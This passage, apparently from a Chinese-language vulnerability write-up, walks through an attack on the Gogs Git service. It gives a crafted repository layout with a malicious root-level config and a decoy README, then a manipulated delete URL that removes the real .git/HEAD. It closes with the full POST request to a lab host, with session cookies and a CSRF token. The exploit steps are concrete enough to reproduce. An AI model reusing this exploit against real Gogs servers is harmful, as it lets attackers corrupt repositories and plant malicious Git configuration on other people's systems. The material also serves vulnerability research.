 ```
malicious-repo/
├── HEAD                  # 根目录下的HEAD
├── config                # 根目录下的恶意config
├── refs/heads/       # 分支引用
├── objects/...           # 空对象目录
├── info/...              # 其他元数据
├── .git/...              # 原始.git目录（后续将被破坏）
└── README.md             # 伪装文件
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Prn4EOgO7vclkhbDGZ8BIft8Vy2KyZdBFibIMpicfFVx827mMN0I0EVoQ8gnPt1hnUe4FibrAw9ichbK1mNibEQdQAw/640?wx_fmt=jpeg&from=appmsg "")  
  
我们可以自己在github上面创建一个这样的项目（文件的内容也需要符号git的规则，可以随便拉一个项目然后修改它的.git目录，项目里一般都有这些文件） 然后git clone到本地 添加符号链接然后 push到gogs上面  
# 漏洞触发  
  
目录已经构造好了，接下来我们要破坏原始.git目录的完整性了 也就是需要删除.git/HEAD  
  
(测试发现没有   
description  
 和 index也是可以的)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vclkhbDGZ8BIft8Vy2KyZdBInRr8BPQhX8zC83rCB71ITu0jhtU9jV8UFibzCmpFNS0XypghY3UFjA/640?wx_fmt=png&from=appmsg "")  
  
当然这里config中的内容需要是恶意的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vclkhbDGZ8BIft8Vy2KyZdB3R6RoJZmnNszQXqia8LCHF7rj5Ikr1p476gqCGSBspCMyG3c5YKor8Q/640?wx_fmt=png&from=appmsg "")  
  
我们随便删一个文件 然后抓包（不是真的删）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vclkhbDGZ8BIft8Vy2KyZdBUcs6daLMd8JGeabmWkIQ7eUHSkDFJPKXbUKoA6ib0icu8U23swriaqNicQ/640?wx_fmt=png&from=appmsg "")  
  
然后修改为如下url：http://192.168.11.61:10880/admin1/tset/_delete/master/true_git_dir/HEAD即指向的是.git下的HEAD而不是当前仓库里的HEAD 然后右边就会提示删除时发生了错误  
  
原因也很简单，因为原始git目录的HEAD被成功删除，完整性被破坏，执行git命令的时候也就报错，最终再ui上体现如截图所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Prn4EOgO7vclkhbDGZ8BIft8Vy2KyZdBXqbuarm6EZml7fBWWNDjTKGCrmPfcEgIWxyhKd3mVSEEpaKQvJeR8g/640?wx_fmt=png&from=appmsg "")  

```
POST /admin1/tset/_delete/master/true_git_dir/HEAD HTTP/1.1
Host: 192.168.11.61:10880
Content-Type: application/x-www-form-urlencoded
Cookie: lang=zh-CN; i_like_gogs=e4273ca0fe129938; gogs_awesome=admin1; gogs_incredible=7adbdcb1e2749458125bfb817c73c1e3802f77ed88e79a11d1a0c6561cfa06b064ae
Content-Length: 130

_csrf=H3SRKyUjzJsxUgTJqttujDb4s4Q6MTc1MTcwODYxNjQ3MDk2MjA5MA&commit_summary=&commit_message=&commit_choice=direct&new_branch_name=
```

  